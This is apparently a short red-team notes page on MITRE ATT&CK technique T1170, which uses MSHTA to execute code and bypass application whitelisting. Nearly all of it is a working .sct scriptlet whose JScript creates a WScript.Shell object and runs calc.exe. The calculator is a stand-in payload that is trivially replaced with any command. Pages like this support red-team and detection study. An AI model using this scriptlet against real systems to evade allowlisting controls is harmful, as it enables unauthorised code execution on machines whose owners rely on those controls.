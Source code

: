```yaml
---
description: Application whitelist bypass technique
---
```


# T1170: MSHTA Code Execution

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1170\",\"type\":\"link\",\"title\":\"Mshta - ATT&CK for Enterprise\"}" %}

## Code

{% code-tabs %}
{% code-tabs-item title="m.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration description="Desc" progid="Progid" version="0" classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"></registration>

<public>
    <method name="Exec"></method>
</public>

<script language="JScript">
<![CDATA[
	function Exec()	{
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");
	}
]]>
</script>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

